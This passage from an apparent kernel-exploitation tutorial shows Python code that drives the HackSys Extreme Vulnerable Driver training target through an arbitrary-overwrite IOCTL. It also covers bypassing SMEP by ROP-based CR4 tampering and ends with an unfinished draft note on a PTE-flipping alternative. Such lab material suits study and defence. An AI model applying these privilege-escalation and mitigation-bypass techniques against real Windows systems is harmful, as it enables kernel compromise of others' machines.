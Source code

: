 ```python
print "[+] Using CreateFileA() to obtain and return handle referencing the driver..."
handle = kernel32.CreateFileA(
    "\\\\.\\HackSysExtremeVulnerableDriver", # lpFileName
    0xC0000000,                         # dwDesiredAccess
    0,                                  # dwShareMode
    None,                               # lpSecurityAttributes
    0x3,                                # dwCreationDisposition
    0,                                  # dwFlagsAndAttributes
    None                                # hTemplateFile
)

# 0x002200B = IOCTL code that will jump to TriggerArbitraryOverwrite() function
print "[+] Interacting with the driver..."
kernel32.DeviceIoControl(
    handle,                             # hDevice
    0x222003,                           # dwIoControlCode
    input_buffer,                       # lpInBuffer
    input_buffer_length,                # nInBufferSize
    None,                               # lpOutBuffer
    0,                                  # nOutBufferSize
    byref(c_ulong()),                   # lpBytesReturned
    None                                # lpOverlapped
)

os.system("cmd.exe /k cd C:\\")
```

This shellcode adds 0x40 to RSP as you can see from above. This is specific to the process I was exploiting, to resume execution. Also i nthis case, RAX was set to 0. Therefore, there was no need to `xor rax, rax`.

As you can see, SMEP has been bypassed!

<img src="{{ site.url }}{{ site.baseurl }}/images/SMEP.png" alt="">

SMEP Says Goodbye V2
---
As you can see, we just successfully disabled SMEP with ROP. Although this is a neat method to disable SMEP- the CR4 register is protected by [Patch Guard](https://blog.tetrane.com/downloads/Tetrane_PatchGuard_Analysis_RS4_v1.00.pdf). Tampering with the CR4 register without restoring the original value value of CR4 will now kill our exploit as of Windows 10 RS4. Instead of restoring CR4 for our purposes- let's use this as a perfect opportunity to outline the PTE method of bypassing SMEP mentioned earlier. Let's revisit that notion with a read and write primitive.

TALK ABOUT nt!MiGetPteAddress AFTER LEAKING KERNEL TO IDENTIFY SHELCODE PTE AND FLIP U BIT TO S BIT
